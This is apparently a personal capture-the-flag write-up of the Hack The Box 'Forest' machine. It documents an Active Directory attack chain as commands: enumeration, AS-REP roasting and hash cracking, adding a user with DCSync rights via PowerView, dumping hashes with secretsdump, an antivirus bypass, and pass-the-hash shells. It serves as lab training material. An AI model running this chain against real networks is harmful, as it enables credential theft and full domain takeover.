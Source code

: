 ```yaml
---
date: 2025-03-28
categories: [CTF, HTB]
title: "HTB - Forest"
tags: ['bloodhound', 'hashcat', 'impacket', 'kerberos', 'ldap', 'linux', 'nmap', 'privilege escalation', 'rce', 'secretsdump', 'smb', 'windows']

description: "Forest - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Forest

```bash
nmap 10.129.95.210 -A

```

![image1](../resources/711e7307ff794f6cbf6267013997a959.png)

- Looks like this could be the DC (Kerberos)
- Got the domain from ldap - **htb.local**

- Port 445 SMB is open
- Enumerate with enum4linux
```bash
enum4linux 10.129.95.210

```
- Found users:

![image2](../resources/20f9c52a79b54382b6e591412d9adb91.png)


![image3](../resources/12f7a24d9c9042fa9df1e633361e6493.png)

- <u>Can also use LDAP to enumerate:</u>
```bash
ldapsearch -H ldap://10.129.95.210 -x -s base -b '' "(objectClass=\*)" "\*" +
```

![image4](../resources/654647aff37743419fe09ff3eb012172.png)
```bash
ldapsearch -H ldap://10.129.95.210 -x -b "DC=htb,DC=local" \| grep "dn: CN=" \| grep "OU="
```

![image5](../resources/fcedadc34f5c47498612578acbe9a079.png)

<https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/>

- Add users in a file (**users**)

- Check if usernames are valid:
```bash
kerbrute userenum --dc 10.129.95.210 -d htb.local users -o validusers.txt

```

![image6](../resources/3d882de76f884541bc79be2f2bf636a0.png)

- Vind vulnerable users:
```bash
impacket-GetNPUsers htb.local/ -users users -no-pass -dc-ip 10.129.95.210

```

![image7](../resources/f025b74aec67441f97fb2deff533359e.png)

- Save the whole hash to a file and use hashcat:
```bash
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```

![image8](../resources/329228a4ba98415d9415ad926177c823.png)

Got credentials for a service account.

- Test with CME:
```bash
crackmapexec smb 10.129.95.210 -u svc-alfresco -p \<password\>

```

![image9](../resources/df6387c210d444d49f6852fd97b7b6c4.png)

- Remote using WinRM:
```bash
evil-winrm -i 10.129.95.210 -u svc-alfresco -p \<password\>

```

![image10](../resources/b0da291eb004454c94a88fb3b89ba7e3.png)


![image11](../resources/6c1dceeb42bf4cb28ac9f2c67a1d7032.png)

**<u>Priv Esc:</u>**

```bash
whoami /all

```

![image12](../resources/787ff38513e848848c131819de4c95ab.png)

- Part of the:
**BUILTIN\Account Operators**

The Account Operators group grants limited **account creation privileges** to a user.

Members of this group can create and modify most types of accounts, including accounts for users, Local groups, and Global groups.

Group members can log in locally to domain controllers

- Upload Sharphound:
```bash
upload SharpHound.exe

```
- Run Sharphound:
```bash
.\SharpHound.exe --CollectionMethods All --Domain htb.local --ZipFileName loot.zip

```
- Download the loot.zip file:
```bash
download 20240205024401_loot.zip

```
- Start Neo4j:
```bash
sudo neo4j console

```
- Open Bloodhound
Drag and drop the loot.zip file into bloodhound

Click on - **Find Shortest Paths to Domain Admins**


![image13](../resources/b259b9483f584490a258a9eb2b83d5b6.png)

If there is loads of old data in bloodhound:

Connect to the neo4j browser gui <http://localhost:7474>

Run:

```bash
MATCH (n)

DETACH DELETE n;

```

![image14](../resources/a81df9fe27cf4b368ca75963582fbcc3.png)


![image15](../resources/b4105ed3e6734f0880074ed44f063fee.png)

- **The user svc-alfresco is part of the Account Operators group**


![image16](../resources/46f99dc060234015a590067222896335.png)

- Click on the Account Operators node and Reachable High Value Targets

![image17](../resources/029cb7f8d2914fdb874d1124d221fd0a.png)


![image18](../resources/c54af6facdca4248872077bab5945087.png)


![image19](../resources/598ff1be2ca242e7b5612919824d2a57.png)

- Account operators has GenericAll to the Exchange Windows Permissions

![image20](../resources/e33572edc1764efbad8bd89ac7c1857d.png)

- And that in turn has WriteDACL to the HTB.LOCAL

![image21](../resources/a004f7b15ae94c44b790748fa5ff5503.png)

- HTB.LOCAL is the domain so we know that all accounts are part of it ie. Administrator

- And clicking on the Domain Admins' node - We can see that Administrator account is a part of that group.
And we need DA

- **<u>To exploit:</u>**

- Create a new user (tooby):
```bash
net user tooby Password123! /add /domain

```
- Add to the group Exchange Windows Permissions
```bash
net group "Exchange Windows Permissions" tooby /add

```
- Open the menu in evil-winrm:
```bash
menu

```

![image22](../resources/0d1d666a37e94b3fbe7869d2595a0d89.png)

- Use Bypass-4MSI - To bypass AV

![image23](../resources/bce6ba48b3934433a7bfae386888855a.png)

- Upload PowerView.ps1 and run it:
  upload PowerView.ps1

```powershell
  . .\PowerView.ps1
  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('htb\tooby', $SecPassword)
  Add-DomainObjectAcl -PrincipalIdentity tooby -Credential $Cred -Rights DCSync
```
- User tooby has DCSync rights now

- Run a DCSync to get hashes:

```bash
impacket-secretsdump htb/tooby:'Password123!'@10.129.95.210 -dc-ip 10.129.95.210
```

![image24](../resources/731b570fcc194ce1b4e5e6b68526e96c.png)

- Got htb.local\Administrator hash

- **<u>Get shell:</u>**

- <u>Psexec:</u>
```bash
impacket-psexec htb/administrator@10.129.95.210 -hashes "<password_hash>"
```

![image25](../resources/829f70572ea947afbe3f7c5eb3617d17.png)


![image26](../resources/c5363a4bedf249f986ba565afdf8074c.png)

- <u>Evil-WinRM:</u>
```bash
evil-winrm -i 10.129.95.210 -u administrator -H "<second_half_of_hash>"
```

![image27](../resources/56b8467c0fcc4dc8932317ea0d9670e5.png)

![image28](../resources/196ec54770d84bb2851cd1ce4788d45e.png)